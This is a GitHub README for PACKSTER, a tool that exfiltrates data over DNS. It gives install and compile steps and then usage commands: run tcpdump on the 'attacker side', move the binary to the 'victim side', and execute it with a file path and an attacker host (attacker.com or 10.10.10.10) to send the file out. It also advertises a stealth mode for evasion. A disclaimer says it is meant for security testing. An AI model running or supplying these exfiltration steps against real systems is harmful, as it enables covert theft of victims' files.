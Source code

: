 # PACKSTER

## Overview
PACKSTER is a powerful exfiltration tool designed for demonstrating efficient data exfiltration and security testing. It allows for controlled and stealthy data exfiltration by utilizing DNS queries, making it a valuable tool for cybersecurity professionals and penetration testers.

## Features
- Fast and reliable data exfiltration
- Supports multiple transport methods
- Customizable payload handling
- Stealth mode for evasion techniques
- Logging and error handling for debugging

## Watch The Demo

[![Packster Demo]([https://img.youtube.com/vi/r4g577TrCSw/maxresdefault.jpg](https://raw.githubusercontent.com/Sayan690/Packster/refs/heads/main/resources/packster.png))](https://www.youtube.com/watch?v=r4g577TrCSw)

[![Watch the video](https://raw.githubusercontent.com/Sayan690/Packster/refs/heads/main/resources/packster.png)](https://www.youtube.com/watch?v=rXOXy-RJSDQ)

## Installation
### Prerequisites
Ensure you have Python installed on your system. PACKSTER requires Python 3.x.

### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

### Get The [Release Binaries](https://github.com/Sayan690/Packster/releases/)

OR

### Compile It Locally

Requirements - pyinstaller

#### Clone The Repository
```bash
git clone https://github.com/Sayan690/packster.git
cd packster
```

#### Compile Using Pyinstaller

```bash
pyinstaller -F packety.py --icon=resources/packster.ico
```

### Install Dependencies
```bash
pip install -r requirements.txt
```

## Usage
To run PACKSTER, follow these steps:

- Start the listener on the attacker side

```bash
tcpdump -i any -w capture.pcap
```

- Transfer the [packster binary](https://github.com/Sayan690/Packster/releases/) to the victim side and execute

```bash
.\packster.exe -f C:\Path\To\File -a attacker.com

./packster.exe -f /Path/To/File -a 10.10.10.10
```

- After the process exits printing "done.", exit out from tcpdump, and run `filtrz.py`

```bash
python3 filtrz.py -a attacker.com -c capture.pcap -o output_file_name.txt
```

## Disclaimer
PACKSTER is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
